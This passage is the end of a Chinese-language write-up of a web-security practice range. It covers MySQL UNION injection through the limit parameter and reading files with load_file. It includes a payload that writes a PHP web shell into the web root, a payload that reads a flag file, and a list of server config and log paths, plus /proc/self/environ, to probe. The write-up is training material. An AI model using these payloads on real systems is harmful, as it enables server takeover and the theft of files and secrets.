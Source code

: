 做过前面的关卡我们还知道，低版本的mysql在没有order by的情况下，limit可以接union，那么也可以使用union写shell了。  
`?limit=0,1 union select 1,2,"<?php @e val($_POST[_])?>",4,5 into outfile "D:/phpstudy_pro/WWW/phptrain/shell3.php"`

union读取文件
---------

### 原理

mysql读取文件常用`load_file()`，前面也有演示过。  
当然也是需要有相应的权限才行，前面也提到过。  
实际渗透中，如果拥有了读写文件的权限，可以通过读文件去尝试获取网站根目录。  
一些可利用的默认路径：

```php
/etc/apache2/sites-available/000-default.conf
/etc/apache2/apache2.conf
/etc/apache2/envvars
/var/log/apache2/access.log
/var/log/apache2/error.log
/proc/self/environ
/etc/nginx/nginx.conf
/var/log/nginx/access.log
/var/log/nginx/error.log
```

### 实战

题目是有回显位的，所以我们直接拿到文件内容。  
`?id=0' union select 1,2,load_file("D:/flag.txt"),4,5 --+`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f9b3d681aef45c10abcf28fe97a378bd907e46c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f9b3d681aef45c10abcf28fe97a378bd907e46c.png)

如果没有回显位，盲注也是可以的，和时间盲注关卡一模一样，直接拿之前的脚本跑了。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dfb63da99936d2ea8dcf40c2335225a004b6b854.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dfb63da99936d2ea8dcf40c2335225a004b6b854.png)

可以通过监控工具中看到盲注过程的payload。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-edb01b024742cc80b105f7f5ad9706a0098efd5b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-edb01b024742cc80b105f7f5ad9706a0098efd5b.png)

后记
==

说一说感想，一开始笔者看到这个新出的靶场，刚好比较闲，就拿来刷一下，过程中不知不觉的巩固了已有的知识，同时也能学习到一些新的知识，可以说是温故知新、查漏补缺了。

由于习惯做学习笔记，于是有了本篇文章。一开始是想把所有关卡写在一起，但是光写完SQL部分发现篇幅就挺长了，后续的还有xss部分、文件上传部分、xxe部分，初步估计至少要分三篇才能记录完。

所以，未完待续...